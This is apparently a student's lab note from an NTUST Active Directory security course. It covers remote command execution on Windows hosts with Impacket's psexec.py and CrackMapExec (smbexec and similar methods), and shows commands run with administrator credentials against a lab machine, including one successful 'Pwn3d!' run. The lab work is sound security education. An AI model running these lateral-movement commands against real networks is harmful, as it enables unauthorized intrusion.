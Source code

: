 ```yaml
---
title: NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/4. 遠端執行-讀檔"
---
```


# NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Background
[NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n)
[滲透測試的利器 - Impacket](https://sectools.tw/impacket/): 
> python撰寫的內網滲透工具
## Lab
### ==遠端執行(RDP)2==
* Kali-Linux Tools
    * Impacket(Kali-Linux愛好者可使用的PsExec)
        ```bash
        # Set up & Install
        $ git clone https://github.com/fortra/impacket.git
        $ cd impacket
        $ conda activate py3.7 # Recommended to install it in conda
        $ pip3 install -r requirements.txt
        $ python3 setup.py install
        
        # Cheat-Sheet
        $ conda activate py3.7
        $ proxychains psexec.py <username>:<password>@<ip> whoami
        ```
    * CrackMapExec
        ```bash
        $ crackmapexec smb [IP] -u <username> -p <password --exec-method smbexec -x '<command>'
        ```
        exec-method支援以下方法:
            * mmcexec
            * smbexec
            * wmiexec
            * atexec
#### ==How to use Impacket==
感覺應該是proxychains壞掉了，或是有一些其他問題，導致Connection Refused，總而言之，這套工具就是讓kali-linux也可以使用psexec這個工具
```bash
$ proxychains psexec.py kuma\administrators:1qaz@WSX3edc@192.168.222.129 dir
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  timeout
[-] [Errno Connection error (192.168.222.129:445)] [Errno 111] Connection refused
```
#### ==How to use CrackMapExec==
還記的之前的Lab([NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n))，有使用過這套工具，當時是為了做密碼揮灑的目的，不過考慮到psexec這個工具本質上就是爬到遠端的主機，然後開execve的process，並且跟他溝通，所以在這樣的前提下，就可以直接用CrackMapExec達到和psexec一樣的效果，畢竟兩者本質是做的事情差不多
:::spoiler Execution Result
```bash
$  crackmapexec smb 192.168.222.129 -u administrator -p 1qaz@WSX3edc --exec-method smbexec -x 'dir C:\tools'
SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] Executed command via smbexec
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧ C ññ¬║║╧║╨¿Sª│╝╨┼╥íC
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧º╟╕╣:  C230-62CE
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  C:\tools ¬║Ñ╪┐²
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          .
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          ..
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 12:57    <DIR>          AccessChk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/06/22  ñUñ╚ 02:58         1,379,216 accesschk.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/28  ñUñ╚ 11:41    <DIR>          BloodHound-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:32    <DIR>          BloodHound-win32-x64
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/29  ñWñ╚ 01:24    <DIR>          BloodHound-win32-x64-4.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 01:19           373,760 Certify.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 02:39         1,137,664 DNSAdmin-DLL.dll
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 10:02           443,650 Invoke-NinjaCopy.ps1
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          KDU-1.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 12:08             1,590 Kerberos-AS-REP.txt
SMB         192.168.222.129 445    DESKTOP-G95U93T  2005/01/17  ñUñ╚ 05:23            22,528 KmdManager.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          mimikatz_trunk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:31    <DIR>          neo4j-community-4.3.4
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:51    <DIR>          nopad
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/28  ñUñ╚ 11:09            27,136 PrintSpoofer64.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/05  ñWñ╚ 11:51    <DIR>          Procdump
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          ProcessExplorer
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          PSTools
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 12:27           301,056 Rubeus.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñUñ╚ 11:33    <DIR>          Sysmon
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          Windows-Kernel-Explorer-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/06  ñWñ╚ 11:12    <DIR>          Zip Folders
SMB         192.168.222.129 445    DESKTOP-G95U93T  8 ¡╙└╔«╫       3,686,600 ª∞ñ╕▓╒
SMB         192.168.222.129 445    DESKTOP-G95U93T  16 ¡╙Ñ╪┐²  16,192,659,456 ª∞ñ╕▓╒ÑiÑ╬
```
:::
## Reference

